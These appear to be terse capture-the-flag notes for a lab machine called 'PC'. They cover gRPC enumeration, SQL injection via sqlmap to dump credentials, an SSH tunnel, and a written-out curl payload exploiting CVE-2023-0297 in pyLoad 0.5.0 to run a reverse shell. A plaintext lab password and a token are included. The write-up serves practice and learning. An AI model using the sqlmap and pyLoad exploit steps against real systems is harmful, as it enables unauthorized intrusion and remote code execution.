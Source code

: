 # PC

| Name      | IP           | Difficulty | OS    |
| ------ | ------------ | ---------- | ----- |
| pc | 10.10.11.214 | Easy       | Linux |

## NMAP

| HOST         | PORT | PROTO | SERVICE | VERSION                 |
| ------------ | ---- | ----- | ------- | ----------------------- |
| 10.10.11.214 | 22   | tcp   | OpenSSH | 8.2p1 Ubuntu 4ubuntu0.7 |

## HEADERS


## DIRECTORIES


## USERS

- sau HereIsYourPassWord1431

## NOTES

- port 50051 open
- http://pc.htb:50051 displays something unreadable 
- `nc pc.htb 50051` and wait
- `Did not receive HTTP/2 settings before handshake timeout`
- grpc on port 50051
- `grpcui -plaintext 10.10.11.214:50051`
- register
- id `378`
- token `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoid2l0aGVyIiwiZXhwIjoxNjg4ODQyMjMxfQ.eJ47h1fMfxYqU_0avGqHHYiGX3sZts35HYfVvlXQxLA`
- send and capture a getinfo() request in burpsuite
- save the request as `sql.req
- `sqlmap -r sql.req -p id --dump` to dump the databse and find sau's ssh password
- `localhost:8000` running `pyLoad 0.5.0` on machine found in linpeas
- create a local ssh tunnel `ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214`
- https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad
- create bash reverse shell in `/tmp` and run a nc listener
- `curl -i -s -k -X $'POST' \     --data-binary $'jk=pyimport%20os;os.system(\"bash%20/tmp/shell.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \     $'http://127.0.0.1:8000/flash/addcrypted2'` will run the reverse shell
